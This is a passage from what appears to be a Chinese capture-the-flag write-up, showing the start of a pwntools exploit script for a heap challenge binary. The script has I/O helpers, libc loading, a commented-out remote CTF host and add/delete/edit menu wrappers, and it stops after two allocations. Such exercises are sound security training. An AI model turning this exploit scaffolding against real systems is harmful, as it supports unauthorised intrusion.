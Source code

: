 ## exp（开启 ASLR）

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)

def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
```